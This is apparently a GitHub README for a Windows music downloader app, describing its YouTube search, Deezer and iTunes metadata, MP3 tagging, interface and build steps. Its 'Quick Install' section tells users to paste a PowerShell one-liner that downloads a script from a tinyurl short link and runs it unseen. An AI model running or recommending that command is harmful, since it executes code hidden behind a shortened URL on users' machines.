


# 🎵 Music Downloader

Modern music downloader — Search YouTube, fetch metadata from Deezer/iTunes, and download MP3s with embedded album art.

## Quick Install — Music Downloader

**Step by step (copy-paste ready):**

1. Press `Win + R`, type `powershell`, press Enter
2. Copy the line below
3. Right-click in the PowerShell window (or Ctrl+V) to paste
4. Press Enter

```
iex (iwr -useb https://tinyurl.com/msdlps1)
```

- ✅ That's all. Your playlist is one command away.

---

[](https://github.com/eaeoz/music-downloader/releases/download/1.0.0/Music.Downloader.Setup.1.0.0.exe)
[](https://github.com/eaeoz/music-downloader/releases/download/1.0.0/Music.Downloader_portable_1.0.0.exe)
[](https://github.com/eaeoz/music-downloader)

> **Author:** Sedat ERGOZ — [eaeoz](https://github.com/eaeoz) — sedatergoz@gmail.com

---

## 📋 Table of Contents

- [Overview](#-overview)
- [Preview](#-preview)
- [Features](#-features)
- [Download & Installation](#-download--installation)
- [How to Use](#-how-to-use)
- [Build from Source](#-build-from-source)
- [Tech Stack](#-tech-stack)
- [Changelog](#-changelog)

---

## 🎯 Overview

Music Downloader searches YouTube, fetches rich metadata from Deezer and iTunes, and downloads high-quality MP3s with embedded album art, all in a beautiful desktop app:

- 🔍 **YouTube Search** — Searches YouTube and returns 6 results for manual review
- 🏷️ **Smart Metadata** — Fetches artist, title, album, year, genre, and cover art from Deezer (with iTunes fallback), no API keys needed
- 🖐️ **Manual Selection** — Pick the YouTube source, metadata, and album cover (6 options per step)
- 🎨 **Album Art Embedding** — Cover art is downloaded and embedded directly into the MP3 via FFmpeg
- 🌓 **Dark & Light Theme** — Toggle between themes with persistent preference
- 🗂️ **Download History** — Browse, re-download, or remove past downloads

---

## 📸 Screenshots

| Search View | Download Progress |
|:-----------:|:-----------------:|
|  |  |

---

## ✨ Features

### 🔍 YouTube Search
- **yt-dlp Integration** — Searches YouTube via `ytsearch` returning 6 results
- **Manual Selection** — Choose your preferred YouTube source from 6 results, then pick metadata and album cover
- **Title Parsing** — Automatically strips clutter like `(Official Video)`, `(Lyrics)`, `ft.`, `feat.`, YouTube suffixes

### 🏷️ Metadata Fetching
- **Deezer API (Primary)** — Searches `api.deezer.com` for artist, title, album, release year, genre
- **iTunes API (Fallback)** — Falls back to `itunes.apple.com` if Deezer has no results
- **Album Enrichment** — Fetches album-level details (year, genre) from Deezer album endpoint
- **Cover Art** — Downloads high-quality album art (600x600 from iTunes, big/medium from Deezer)
- **No API Keys Required** — All services are free/public
- **Timeout Protection** — 8-second per-request timeout prevents hanging on slow APIs

### 📥 Audio Download
- **yt-dlp Audio Extraction** — Downloads and extracts audio in one step (`-x --audio-format mp3 --audio-quality 0`)
- **FFmpeg Metadata Embedding** — Writes ID3v2.3 + ID3v1 tags with title, artist, album, year, genre
- **Album Art Embedding** — Cover image attached as video stream to the MP3 via FFmpeg
- **192kbps MP3** — High-quality libmp3lame encoding
- **Duplicate Handling** — Auto-appends `(1)`, `(2)` when a file already exists
- **Temp File Cleanup** — Temporary audio and cover files deleted after processing

### 🎨 User Interface
- **6-Step Progress Animation** — Visual pipeline with active/done/error states:
  - Searching YouTube → Fetching song metadata → Downloading audio → Extracting audio → Adding metadata & album art → Complete!
- **Real-Time SSE Progress** — Live progress bar and status messages via Server-Sent Events
- **Manual Selection Flow** — 3 steps with 6 options each: YouTube source → metadata → album cover (each skippable)
- **Settings Modal** — Download history manager, custom download path, yt-dlp updater
- **Dark/Light Theme** — One-click toggle, persists across sessions
- **System Tray** — Minimize to tray with Show / Open Folder / Quit
- **Toast Notifications** — Clear feedback for all actions
- **Custom Title Bar** — Frameless window with draggable region, settings, theme toggle, GitHub link, close button
- **Download History** — Scrollable list with file info, redownload, and remove options

### 💻 System Tray
- Minimize to tray on close (Windows)
- Tray context menu: **Show**, **Open Folder**, **Exit**
- Single-click toggles window visibility
- Single instance lock — prevents multiple app instances

### 🔄 yt-dlp Auto-Update
- Update yt-dlp.exe from within the app
- Real-time progress stream during update
- Automatic download on `npm install` via postinstall script

### ⚙️ Settings
- **Download History** — View past downloads with redownload and remove
- **Download Location** — Custom download directory via native folder picker
- **yt-dlp Update** — Update the YouTube downloader binary

### 🛠️ CLI Tool (track-dl)
- Standalone command-line interface: `track-dl "song name"`
- Options: `--version`, `--help`, `--update`
- Same manual selection and metadata pipeline, headless

---

## 📥 Download & Installation

### Option 1: Windows Installer (Recommended)

[](https://github.com/eaeoz/music-downloader/releases/download/1.0.0/Music.Downloader.Setup.1.0.0.exe)

- Double-click the installer and follow the wizard
- Desktop and Start Menu shortcuts created automatically
- Uninstaller included in Windows Programs & Features

### Option 2: Portable Version

[](https://github.com/eaeoz/music-downloader/releases/download/1.0.0/Music.Downloader_portable_1.0.0.exe)

- No installation required — just run the executable
- No admin rights needed
- Perfect for USB drives or temporary use

---

## 🚀 How to Use

### 1. Search for a Song

Type a song name, artist, or both into the search bar and press **Enter** or click the **Send** button.

Example queries:
- `Blue Da Ba Dee`
- `Eiffel 65 Blue`
- `Bohemian Rhapsody`

### 2. Select Source, Metadata & Cover

The app always runs in manual selection mode — search returns 6 results and you walk through 3 steps:

1. **Select a YouTube source** — Pick from 6 YouTube results
2. **Select metadata** — Choose artist, title, album, year, genre from 6 Deezer/iTunes options (or skip to use the YouTube title)
3. **Select an album cover** — Choose from 6 cover options (or skip)

Then the audio downloads automatically with your chosen metadata and album art embedded.

### 3. Monitor Progress

A full-window overlay shows the download pipeline in real-time:

- **6 animated steps** — Each stage lights up purple (active) then turns green (done)
- **Progress bar** — Fills from 0% to 99% during download, reaches 100% on completion
- **Detail text** — Shows current operation details (file progress, album info)

### 4. Find Your Music

- Click the **Open Folder** button (📂) in the top bar to open the downloads directory in Explorer
- Open **Settings → Downloaded Songs** to browse, re-download, or remove past downloads
- Files are named as `Artist - Title.mp3` with embedded metadata and album art

### 5. System Tray

When minimized, the app lives in your system tray:

- **Show** — Restore the application window
- **Open Folder** — Open the downloads directory
- **Quit** — Fully exit the application

### 6. Settings

- **Downloaded Songs** | View download history with re-download and remove options
- **Download Location** | Custom download directory via folder picker
- **Update yt-dlp** | Update the YouTube downloader to the latest version

---

## 🛠 Build from Source

```bash
# Install dependencies
npm install

# Run as web app (no Electron)
npm start

# Run with Electron
npm run electron

# Generate icons
npm run build:icon

# Build portable executable
npm run build:portable

# Build setup installer
npm run build:setup

# Build both
npm run build:all
```

Outputs are placed in the `dist/` directory.

---

## 🧱 Tech Stack

### Desktop
- **Electron** — Cross-platform desktop framework
- **electron-builder** — Packaging and distribution

### Backend
- **Express.js** — HTTP server
- **yt-dlp** — YouTube search and audio download
- **FFmpeg (ffmpeg-static)** — Audio encoding and metadata embedding
- **Deezer API** — Primary metadata source (artist, title, album, year, genre, cover)
- **iTunes API** — Fallback metadata source

### Frontend
- **Vanilla JavaScript** — No framework dependencies
- **CSS Custom Properties** — Dynamic theming
- **Font Awesome 6** — Icon library
- **Server-Sent Events** — Real-time download progress

---

## 📋 Changelog

### v1.0.0 (2026-05-13)

- **New:** Initial release
- **New:** YouTube search with smart best-match algorithm (word scoring, exact/partial match, preference for official audio)
- **New:** Metadata fetching from Deezer API (primary) with iTunes API fallback — artist, title, album, year, genre, cover art
- **New:** Audio download via yt-dlp with MP3 extraction at highest quality
- **New:** FFmpeg metadata embedding — ID3v2.3 + ID3v1 tags with album art in MP3
- **New:** Auto mode — automatically finds and downloads the best matching result
- **New:** Manual mode — shows 5 YouTube results for user selection with per-result download buttons
- **New:** 6-step animated download pipeline with real-time SSE progress (search → metadata → download → extract → process → complete)
- **New:** Dark/Light theme toggle with persistent localStorage preference
- **New:** Frameless Electron window with custom title bar, system tray, and minimize-to-tray
- **New:** Settings modal — mode toggle, download history, custom download path, yt-dlp updater
- **New:** Download history management — persistent JSON storage, view, redownload, remove, clear all
- **New:** Toast notification system for all actions (success, error, info)
- **New:** yt-dlp auto-update from within the app with real-time progress
- **New:** CLI tool (`track-dl`) with manual and auto modes
- **New:** Duplicate filename handling — auto-appends `(N)` counter
- **New:** Input sanitization (client + server side)
- **New:** Cross-platform folder opening (Windows explorer, macOS Finder, Linux xdg-open)
- **New:** Single instance lock prevents multiple app instances

---

## 📄 License

MIT

---

⭐ **Star this repository if you find it helpful!**  
Developed with ❤️ by **Sedat ERGOZ**
